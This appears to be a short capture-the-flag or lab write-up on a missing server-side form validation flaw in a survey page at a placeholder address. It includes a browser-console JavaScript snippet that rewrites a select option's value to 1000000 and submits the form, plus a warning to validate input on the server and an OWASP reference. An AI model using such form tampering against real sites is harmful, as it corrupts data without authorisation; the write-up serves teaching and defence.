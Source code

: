 # Form validation

⚠️ *Always validate user input on the server side, even if front side already did that!*

To exploit this vulnerability go to the `http://$IPADDR/?page=survey` page. Change `option`'s value to some large number. Select changed value to trigger form to submit.

To make this simpler, paste this code inside console in dev tools and select any option on the page.
```js
document.querySelectorAll('form').forEach(f => {
    let sel = f.querySelector('select');
    sel.onchange = function() {
        sel.options[sel.selectedIndex].value='1000000';
        f.submit();
    };
});
```

## References
- [Input Validation Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)